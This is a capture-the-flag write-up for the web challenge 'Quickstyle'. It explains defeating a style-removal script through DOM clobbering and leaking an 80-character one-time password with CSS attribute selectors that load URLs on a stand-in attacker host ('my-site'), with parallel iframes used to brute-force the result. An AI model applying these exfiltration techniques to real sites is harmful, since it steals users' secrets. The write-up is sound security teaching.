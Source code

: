 # Quickstyle

This was a fun challenge to write and test-solve. The core part of the challenge is the css exfiltration which expands upon an idea from [0ctf/newdiary](https://github.com/salvatore-abello/CTF-Writeups/tree/main/0ctf%20-%202023/newdiary) and addresses some of its shortcomings.

## Challenge

We are given a website with a frontend and backend. An admin visiting the website is greeted with a one-time-password (otp) to give a user. The page they visit will load a user's html with a csp only allowing inline styles. Immediately after loading the html, all `style` tags are removed with a `document.querySelectorAll`. The user gets one try to submit the otp to the `/flag` endpoint before the otp is reset.

## Solution

The overall flow to solving this is to leak the otp with css and then make a request to `/flag` endpoint with the otp.

First thing we notice when trying to add a style is that `document.querySelectorAll('style').forEach(s => s.remove())` removes the style instantly so no styles can take effect. If we can prevent this line from running, we can get all the inline styles we want. To do this, we can use DOM clobbering to make that line error out with `<img name="querySelectorAll" />` (which will make `document.querySelectorAll` refer to the `img` instead of the function).

Next, we have to leak the otp with css. The otp is 80 characters randomly generated from `digits + lowercase + uppercase`. The conventional way to leak an attribute with css is to use something like:

```css
/* if value starts with 'a', set bg to my-site/a (sending a request to my-site with 'a' */
[value^="a"] {
	background: url(https://my-site/a);
}
[value^="b"] {
	background: url(https://my-site/b);
}
/* and so on for rest of alphabet */

/* load next css */
@import 'https://my-site/next';
```

where the next css is loaded once we get the first request. This is usually used to build a prefix and then eventually leak the value. However, the csp prevents us from any css other than unsafe-inline.

There is, however, another method of leaking an attribute which is starting to become well-known (see [0ctf/newdiary](https://github.com/salvatore-abello/CTF-Writeups/tree/main/0ctf%20-%202023/newdiary) and [sonarsource blog](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/#multiple-requests-per-element-crossfade)). In this method, instead of using `startswith` queries, we use `contains` queries with combinations of 3 characters.

For example, to leak `hello`, one can use following css

```css
/* value contains __ */
[value*="hel"] { --hel: url(my-site/hel); }
[value*="ell"] { --ell: url(my-site/ell); }
[value*="llo"] { --llo: url(my-site/llo); }
/* all other possible 3-letter combinations */
input[value] { background: var(--hel,none),var(--ell,none),var(--llo,none); }
```

and then use the overlapping characters to piece together the value (`el` is in both `hel` and `ell`).

Using only combinations size `2` is imprecise because whenever a character repeats, there are multiple possible ways to re-construct the values that grow exponentially. Using combinations size `4` and above require too much css to be downloaded and are impractical. Combinations size `3` are usually a sweet spot for this type of exfiltration.

For this challenge, however, there are `62` possible characters in the alphabet. This would require `62^3` combinations of three characters which exceeds the length restriction enforced in `note.js`. We will have to be more creative than the naive approach.

We definitely have enough room for all combinations of 2 characters, so we make add all of those queries to the stylesheet. The challenge is in obtaining additional information that can resolve the branches that arise when processing 2-combo data.

Looking closer at css attribute selectors, we can specify them to be case-insensitive (like `[value*='abc' i]`). Using case-insensitive checks against all 3 combinations of `lowercase + digits` works very well as shown in a simulation I wrote (see `simulation.py`). This is because for 3-combos, for each letter of the alphabet you omit, the probability you can exfiltrate is roughly halved. However, with case-insensitive checks, all characters will give information. For this particular challenge set and alphabet, there is roughly a `10%` success rate with this method.

As there is roughly a `10%` success rate, we need to conduct multiple login attempts at the same time. Luckily, there is no `X-Frame-Options` sent from the server so we can just `iframe` 20 pages and try all the exfiltrated otp against the `/flag` endpoint.

To make my solution perform on remote, I had to move my css files to github pages (so they download much faster), set up an ngrok https tunnel (to avoid mixed-content errors), and set up a cf worker to reduce the length of my url (ngrok free urls are massive).

This was a fun challenge to write for me with many ups in downs in my own solving of the problem. I hope you all found it fun as well!
